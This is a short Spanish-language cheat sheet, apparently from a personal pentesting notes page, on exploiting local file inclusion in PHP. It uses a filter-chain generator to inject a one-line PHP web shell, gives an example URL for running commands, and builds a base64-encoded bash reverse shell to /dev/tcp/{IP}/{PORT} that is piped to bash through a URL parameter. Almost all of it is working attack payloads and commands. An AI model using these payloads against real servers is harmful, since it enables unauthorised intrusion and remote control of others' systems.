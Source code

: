 ```yaml
---
title : LFI
published : True
---
```

* <p> LFI </p>
* <p>Lfi exploit filter convert .ico exploit <a href="uploads/php_filter_chain_generator.py" download="php_filter_chain_generator.py">aqui</a>.</p>


```bash
	python3 php_filter_chain_generator.py --chain '<?=`$_GET[0]`;?>'

```
* <p>Lo que nos permite un shell con el parametro indicativo 0 es decir:<br> <font color="red">http://10.10.10.10/login.php?0=whoami&file=//{chain generator}</font></p>
<p></p>
* <p> tambie podemos hacernos un reverse shell para ponerla como parametro pero para no dar conflictos tendria que estar en base64 es decir</p>
<p></p>
```bash
$ echo "/bin/bash -i >& /dev/tcp/{IP}/{PORT} 0>&1" | base64 "
 L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK

```
* <p>Luego los parametros a pasar por la url ya serian como :</p>
<p></p>
```bash
	echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwL3tJUH0ve1BPUlR9IDA+JjEK" | base64 -d|bash
	
```
